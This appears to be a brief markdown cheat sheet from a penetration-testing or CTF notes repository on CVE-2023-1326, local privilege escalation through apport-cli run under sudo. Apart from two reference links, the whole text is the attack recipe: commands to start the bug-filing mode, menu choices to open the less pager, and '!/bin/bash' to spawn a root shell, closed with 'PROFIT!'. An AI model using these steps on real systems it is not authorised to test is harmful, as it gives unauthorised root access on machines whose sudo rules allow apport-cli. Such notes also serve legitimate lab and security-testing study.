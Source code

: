 # Apport-cli Privesc

## Resources: 

### 1) https://vk9-sec.com/cve-2023-1326privilege-escalation-apport-cli-2-26-0/

### 2) https://github.com/diego-tella/CVE-2023-1326-PoC

# With sudo:

## Steps:

 - sudo /usr/bin/apport-cli -v (Check version)

 - sudo /usr/bin/apport-cli --file-bug (Enter debug mode)

 - Choose 1

 - Choose 2

 - Press V

 - Enter !/bin/bash to execute an elevated bash shell (Opens a less page as root)

 - PROFIT!
